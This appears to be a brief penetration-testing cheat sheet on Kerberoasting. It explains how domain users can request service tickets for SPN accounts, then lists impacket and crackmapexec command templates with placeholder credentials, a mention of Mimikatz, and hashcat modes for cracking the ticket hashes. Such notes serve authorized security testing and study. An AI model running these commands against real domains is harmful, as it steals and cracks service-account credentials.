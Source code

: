 # Kerberoasting
Kerberoasting takes advantage of how service accounts leverage Kerberos authentication with Service Principal Names (SPNs). By default, all standard domain users can request a copy of all service accounts ST (with SPN value set) along with their correlating password hashes.

Need:
* User with creds
* SPN set

`impacket-GetUserSPNs -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -request`

`crackmapexec ldap <IP> -u '<USER>' -p '<PASS>' --kerberoasting <OUTPUT.TXT>`

`Mimikatz`

## Hashcat Mode
hashcat -m 13100 etype 23
hashcat -m 19600 etype 17
hashcat -m 19700 etype 18